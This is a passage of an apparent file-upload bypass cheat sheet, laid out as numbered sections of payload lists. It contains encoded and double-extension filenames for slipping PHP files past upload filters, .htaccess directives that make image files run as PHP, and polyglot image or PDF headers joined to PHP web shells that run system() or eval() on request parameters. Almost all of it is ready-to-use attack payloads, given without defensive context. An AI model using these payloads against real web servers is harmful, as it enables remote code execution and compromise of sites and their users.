 
## 7️⃣ Encoded Extensions (5)
file%2Ephp  
file%252Ephp  
file.p%68p  
file.p\u0068p  
file.php%2E.jpg  
**MIME-Type Related:** application/x-httpd-php, image/jpeg

---

## 8️⃣ Apache / Nginx Double Parsing (5)
shell.php/.jpg  
shell.php%00.jpg  
shell.php%20.jpg  
shell.php;jpg  
shell.php..jpg  
**MIME-Type Related:** application/x-httpd-php, image/jpeg

---

## 9️⃣ Exotic Extensions Parsed as PHP (5)
.sphp  
.php-s  
.phar  
.suspected  
.module  
**MIME-Type Related:** application/x-httpd-php, application/x-php

---

## 🔟 Dangerous .htaccess Uploads (5)
.htaccess  
AddType application/x-httpd-php .jpg  
AddHandler application/x-httpd-php .gif  
AddType application/x-httpd-php .png  
AddHandler application/x-httpd-php .txt  
**MIME-Type Related:** text/plain, application/x-httpd-php

---

## 1️⃣1️⃣ Polyglot Payloads (5)
GIF89a;<?php system($_GET['cmd']); ?>  
FFD8FF...<?php echo "JPEG+PHP"; ?>  
PNG....IEND<?php phpinfo(); ?>  
PDF%0A<?php eval($_POST[1]); ?>  
<?php echo 'EXIF Injection'; ?>  
**MIME-Type Related:** image/gif, image/jpeg, image/png, application/pdf, application/x-httpd-php

---